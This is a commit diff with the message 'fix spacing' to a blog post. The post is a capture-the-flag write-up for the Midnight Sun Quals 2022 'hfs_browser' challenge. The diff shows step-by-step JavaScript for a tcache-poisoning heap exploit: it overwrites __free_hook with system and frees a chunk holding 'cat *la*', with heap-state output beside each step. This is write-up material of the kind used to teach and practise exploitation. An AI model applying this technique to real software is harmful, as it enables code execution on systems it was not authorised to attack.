

Before and after one commit to Pedro-Bernardo/pedro-bernardo.github.io, a Jekyll site: the page built from _posts/2022-04-03-midnightQuals22_hfs_browser.md, in a window 1280 px wide and 1400 px high, scrolled down 5021 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
fix spacing

````diff
--- a/_posts/2022-04-03-midnightQuals22_hfs_browser.md
+++ b/_posts/2022-04-03-midnightQuals22_hfs_browser.md
@@ -201,22 +201,22 @@ Many operations influence the heap layout and the bins. Using functions like `co
 <!-- [solve.py]({{ "/assets/code/csawquals21/ncore/solve.py" | relative_url }}). -->
 After a lot of tweaking, we developed working exploit ([pwn.js]({{ "/assets/code/midnightQuals22/hfs_browser/pwn.js" | relative_url }})):
 
-1. Alocate a chunk of size 0x1e0. We chose 0x1e0 since the Tcache was already populated, meaning we would not have problems with the chunk counter.
+#### 1. Alocate a chunk of size 0x1e0. We chose 0x1e0 since the Tcache was already populated, meaning we would not have problems with the chunk counter.
 
 ```js
 chunk = new Uint8Array(0x1e0);
 ```
-2. Free the chunk
+#### 2. Free the chunk
 
 ```js
 chunk.midnight();
 ```
-Tcache:
+
 ```
 Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a80, size=0x1f0, flags=PREV_INUSE)  ←  Chunk(addr=0x4c5960, size=0x1f0, flags=PREV_INUSE)
 ```
 
-3. `chunk->fd = &__free_hook`
+#### 3. `chunk->fd = &__free_hook`
 
 ```js
 free_hook = libc_base + 0x1eee48;
@@ -229,26 +229,26 @@ chunk[2] = parseInt(free_hook_str.substring(6, 6 + 2), 16);
 chunk[1] = parseInt(free_hook_str.substring(8, 8 + 2), 16);
 chunk[0] = parseInt(free_hook_str.substring(10, 10 + 2), 16);
 ```
-Tcache:
+
 ```
 Tcachebins[idx=29, size=0x1f0] count=2  ←  Chunk(addr=0x4c9a70, size=0x1f0, flags=PREV_INUSE)  ←  Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE)
 
 0x7ffff7ddfe48 = &__free_hook
 ```
 
-4. Allocate a chunk and write the command for `system`. `cat *la*` worked for our exploit.
+#### 4. Allocate a chunk and write the command for `system`. `cat *la*` worked for our exploit.
 
 ```js
 chunk2 = new Uint32Array(0x78);
 chunk2[1] = 0x2a616c2a; // *la*
 chunk2[0] = 0x20746163; // cat
 ```
-Tcache:
+
 ```
 Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x7ffff7ddfe48, size=0x0, flags=! PREV_INUSE) ...
 ```
 
-5. Allocate the final chunk. `malloc` will return `&__free_hook`
+#### 5. Allocate the final chunk. `malloc` will return `&__free_hook`
 
 ```js
 target = new Uint32Array(0x78);
@@ -256,7 +256,7 @@ target[0] = system;         // lower  32 bits of system
 target[1] = system_upper;   // higher 32 bits of system
 ```
 
-6. Free chunk2 containing `cat *la*`
+#### 6. Free chunk2 containing `cat *la*`
 
 ```js
 chunk2.midnight()
````
